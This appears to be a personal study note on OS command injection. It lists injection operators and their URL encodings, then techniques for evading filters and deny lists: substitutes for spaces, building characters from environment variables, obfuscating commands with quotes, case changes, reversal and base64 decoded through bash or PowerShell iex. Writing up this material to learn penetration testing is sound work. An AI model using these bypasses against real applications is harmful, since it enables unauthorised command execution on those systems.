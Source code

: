 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## Command Injection Methods
Take this example in an application
```bash
ping -c 1 [user_input]
```

| Operator   | Character | URL-Encoded | Executed Command                           |
| ---------- | --------- | ----------- | ------------------------------------------ |
| Semicolon  | `;`       | `%3b`       | Both (*Won't for for Windows CMD*)         |
| New Line   | `\n`      | `%0a`       | Both                                       |
| Background | `&`       | `%26`       | Both (second output generally shown first) |
| Pipe       | \|        | `%7c`       | Both (only second output is shown)         |
| AND        | `&&`      | `%26%26`    | Both (only if first succeeds)              |
| OR         | \|\|      | `%7c%7c`    | Second (only if first fails)               |
| Sub-Shell  | ``        | `%60%60`    | Both (*Linux-Only*)                        |
| Sub-Shell  | `$()`     | `%24%28%29` | Both (*Linux-Only*)                        |
## Most Common Injection Operators

| Injection Type                          | Operators                                          |
| --------------------------------------- | -------------------------------------------------- |
| SQL Injection                           | `'` `,` `;` `--` `/*` `*/`                         |
| Command Injection                       | `;` `&&`                                           |
| LDAP Injection                          | `*` `( )` `&` \|                                   |
| XPath Injection                         | `'` `or` `and` `not` `substring` `concat` `count`  |
| OS Command Injection                    | `;` `&` \|                                         |
| Code Injection                          | `'` `;` `--` `/*` `*/` `$()` `${}` `#{}` `%{}` `^` |
| Directory Traversal/File Path Traversal | `../` `..\\` `%00`                                 |
| Object Injection                        | `;` `&` \|                                         |
| XQuery Injection                        | `'` `;` `--` `/*` `*/`                             |
| Shellcode Injection                     | `\x` `\u` `%u` `%n`                                |
| Header Injection                        | `\n` `\r\n` `\t` `%0d` `%0a` `%09`                 |
## Filters
- If we get a response back within the app itself, then its likely a filter in the code.
	- If its a filter, we can identify what we changed in the request and then attempt to bypass each one and see if it passes.
	- Its important here to try to do one character at a time, not the entire string. This allows us to check exactly which things are being blocked.
- If we get a different error page instead, with other information like IP or request, then its likely being blocked by a WAF.

### Bypassing Space Filters
- Use tabs instead of spaces : `%09`
- `${IFS}`'s default value is a space so we can just replace it where we would put spaces (*Linux-Only*)
- Brace expansion automatically adds spaces between elements when expanded (eg. `{ls,-la}` -> `ls -la`)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space) has a section on writing commands without spaces

### Bypassing Deny-listed Characters
- If the character exists in another system env var, we might be able to use the `start` and `length` of that variable to extract the character
	- **Linux Bash** : `/` is at the start of `$PATH`, so we can reference a `/` with `${PATH:0:1}`
		- `printenv | grep "[char]"` will help us find the vars we need (*look on our own linux system*)
	- **Windows CMD** : `%HOMEPATH:~0,-1%` -> `\`
	- **Windows PS** : `$env:HOMEPATH[0]` (*A word in powershell is considered an array so we specify the index, we don't have to put a length*)
		- `Get-ChildItem Env:` gives all PS environment variables

### Bypassing Deny-listed Commands
- Split up the command with characters that are ignored (eg. `whoami` -> `w'h'oa'm'i` - *We can't mix quote types and they must all be balanced*)
	- `\` : *Linux*
	- `$@` : *Linux*
	- `'`
	- `"`
	- `^` : *Windows*
- Case Manipulation in *Windows* sometimes works as it is not case-sensitive. Linux is case-sensitive so it will fail.
	- Some creative ways we can do this on linux is to use `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`, which will convert it to lowercase but the command may slip pass filtering
	- We can also use `$(a="WhOaMi";printf %s "${a,,}")` for the same effect
- Reverse strings
	- `$(rev<<<'imaohw')` : Linux
	- `iex "$('imaohw'[-1..-20] -join '')"` : Windows
- Base64 Encoding
	- `$(base64 -d<<<[b64_encoded_string])` : *Linux*
	- To do this on *Windows* we can convert the text to B64 (*UTF-16 though*): 
		- `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`
		- `echo -n 'whoami' | iconv -f utf-8 utf-16le | base64`
	- Then we can decode it with `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('b64_string')))"`
- Variable expansion with [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion)
> In all these, we can swap `<<<` with `|` interchangeably depending on what is denied.